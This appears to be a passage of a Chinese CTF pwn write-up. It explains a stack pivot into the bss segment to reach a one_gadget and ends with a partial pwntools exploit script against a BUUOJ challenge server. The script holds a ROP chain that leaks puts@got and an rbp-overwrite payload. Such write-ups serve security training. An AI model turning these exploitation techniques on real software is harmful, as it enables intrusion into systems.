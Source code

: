 ![image-20220411115920143](/upload/img/image-20220411115920143.png)



现在来到了第二次往栈里输入的read，可以发现它输入的内容是往0x6023f0输入的，这意味着我们刚刚输入的admin和one_gadget会被这次输入的内容所覆盖（因为我们现在的栈就已经在bss段了，因此这次输入会干扰第一次输入）。先注意一下rbp的值，我们第二次输入的目的就是在不破坏one_gadget的情况下，覆盖rbp迁移到one_gadget这里。现在这里的输入距离rbp还有32个字节。这就意味着我们要是想控制这个rbp就必须覆盖之前写的one_gadget了。

不过最关键的一点是不是被忽略了，往bss段输入的那个read函数，可以输入32字节，如果我们把one_gadget给抬高呢？抬高到第24字节再布置（相当于0x602400地址来说，也就是此时的one_gadget应该是在0x602418的位置），而我们再输入32字节的话再写rbp的话，这个rbp也才是在0x602410这个位置（第二次输入是相当于0x6023f0来说），这样rbp就没有干扰到one_gadget

或者用另一种方法，我们第一次就输入一个admin，第二次输入的时候，我们同时布置one_gadget和覆盖rbp。控制rbp去迁移到one_gadget上面，二者的核心思路都是一样的。



然后就exp基本就出来了，需要注意的是，如果打远程，one_gadget搜索的是用题目给的libc，如果的打本地，one_gadget搜自己本地的libc。（另外就是，这道题用不了system加参数/bin/sh获取shell，不信的话，试一下就知道了）

# EXP：

```python
#coding:utf-8
from pwn import *
from LibcSearcher import *

context(arch='amd64',os='linux',log_level='debug')
e=ELF('./a')
p=process('./a')
p=remote('node4.buuoj.cn',26765)
#libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')#这里本地还是远程，自己切换一下库
libc=ELF('libc.so.6')
#gdb.attach(p)

puts_plt_addr=e.plt['puts']
puts_got_addr=e.got['puts']
pop_rdi_ret=0x401ab3
call_puts_addr=0x4018B5
payload='admin\x00\x00\x00'+p64(pop_rdi_ret)+p64(puts_got_addr)+p64(call_puts_addr)
p.sendafter('>',payload)
payload='admin\x00\x00\x00'*4+p64(0x602400)
p.sendafter('>',payload)
```